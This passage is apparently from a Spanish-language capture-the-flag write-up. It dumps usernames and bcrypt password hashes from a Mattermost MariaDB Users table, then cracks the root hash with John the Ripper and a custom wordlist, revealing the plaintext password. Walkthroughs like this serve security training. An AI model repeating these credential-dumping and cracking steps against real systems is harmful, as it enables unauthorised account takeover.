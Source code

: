 ```
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |
| AuthService        | varchar(32)  | YES  |     | NULL    |       |
| Email              | varchar(128) | YES  | UNI | NULL    |       |
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)

MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| test                             | $2a$10$bwpDYPBA4P9QhoG.y4dYHuVMH3kmzKjf.OxGIs2I70vQkwmHAC5Pa |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.000 sec)
```

El `hash` de `root` lo `almacenamos` en un `archivo` y lo `crackeamos` con el `diccionario` que hemos creado anteriormente con `hashcat`

```
# john -w:wordlist.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (?)     
1g 0:00:00:00 DONE (2024-08-22 22:21) 4.761g/s 342.8p/s 342.8c/s 342.8C/s PleaseSubscribe!..PlesPles
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
